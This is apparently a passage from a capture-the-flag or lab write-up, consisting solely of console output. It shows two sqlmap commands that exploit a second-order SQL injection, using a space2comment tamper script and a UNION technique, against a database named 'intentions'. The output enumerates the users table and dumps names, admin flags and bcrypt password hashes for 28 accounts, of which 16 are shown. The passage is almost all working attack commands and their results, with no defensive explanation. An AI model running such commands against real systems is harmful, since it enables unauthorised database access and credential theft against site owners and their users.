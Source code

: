 ```console

$ sqlmap -r request1.txt --second-req request2.txt --tamper=space2comment --technique=U --batch -D intentions -T users --columns
Database: intentions
Table: users
[8 columns]
+------------+---------------------+
| Column     | Type                |
+------------+---------------------+
| admin      | int(11)             |
| name       | varchar(255)        |
| created_at | timestamp           |
| email      | varchar(255)        |
| genres     | text                |
| id         | bigint(20) unsigned |
| password   | varchar(255)        |
| updated_at | timestamp           |
+------------+---------------------+

$ sqlmap -r request1.txt --second-req request2.txt --tamper=space2comment --technique=U --batch -D intentions -T users -C admin,name,password --dump
Database: intentions
Table: users
[28 entries]
+--------------------------+---------+----------------------------------------------------------------------+
| name                     | admin   | password                                                             |
+--------------------------+---------+----------------------------------------------------------------------+
| steve                    | 1       | $2y$10$M\\/g27T1kJcOpYOfPqQlI3.YfdLIwr3EWbzWOLfpoTtjpeMqpp4twa       |
| greg                     | 1       | $2y$10$95OR7nHSkYuFUUxsT1KS6uoQ93aufmrpknz4jwRqzIbsUpRiiyU5m         |
| Melisa Runolfsson        | 0       | $2y$10$bymjBxAEluQZEc1O7r1h3OdmlHJpTFJ6CqL1x2ZfQ3paSf509bUJ6         |
| Camren Ullrich           | 0       | $2y$10$WkBf7NFjzE5GI5SP7hB5\\/uA9Bi\\/BmoNFIUfhBye4gUql\\/JIc\\/GTE2 |
| Mr. Lucius Towne I       | 0       | $2y$10$JembrsnTWIgDZH3vFo1qT.Zf\\/hbphiPj1vGdVMXCk56icvD6mn\\/ae     |
| Jasen Mosciski           | 0       | $2y$10$oKGH6f8KdEblk6hzkqa2meqyDeiy5gOSSfMeygzoFJ9d1eqgiD2rW         |
| Monique D'Amore          | 0       | $2y$10$pAMvp3xPODhnm38lnbwPYuZN0B\\/0nnHyTSMf1pbEoz6Ghjq.ecA7.       |
| Desmond Greenfelder      | 0       | $2y$10$.VfxnlYhad5YPvanmSt3L.5tGaTa4\\/dXv1jnfBVCpaR2h.SDDioy2       |
| Mrs. Roxanne Raynor      | 0       | $2y$10$UD1HYmPNuqsWXwhyXSW2d.CawOv1C8QZknUBRgg3\\/Kx82hjqbJFMO       |
| Rose Rutherford          | 0       | $2y$10$4nxh9pJV0HmqEdq9sKRjKuHshmloVH1eH0mSBMzfzx\\/kpO\\/XcKw1m     |
| Dr. Chelsie Greenholt I  | 0       | $2y$10$by.sn.tdh2V1swiDijAZpe1bUpfQr6ZjNUIkug8LSdR2ZVdS9bR7W         |
| Prof. Johanna Ullrich MD | 0       | $2y$10$9Yf1zb0jwxqeSnzS9CymsevVGLWIDYI4fQRF5704bMN8Vd4vkvvHi         |
| Prof. Gina Brekke        | 0       | $2y$10$UnvH8xiHiZa.wryeO1O5IuARzkwbFogWqE7x74O1we9HYspsv9b2.         |
| Jarrett Bayer            | 0       | $2y$10$yUpaabSbUpbfNIDzvXUrn.1O8I6LbxuK63GqzrWOyEt8DRd0ljyKS         |
| Macy Walter              | 0       | $2y$10$01SOJhuW9WzULsWQHspsde3vVKt6VwNADSWY45Ji33lKn7sSvIxIm         |
| Prof. Devan Ortiz DDS    | 0       | $2y$10$I7I4W5pfcLwu3O\\/wJwAeJ.xqukO924Tx6WHz1am.PtEXFiFhZUd9S       |
```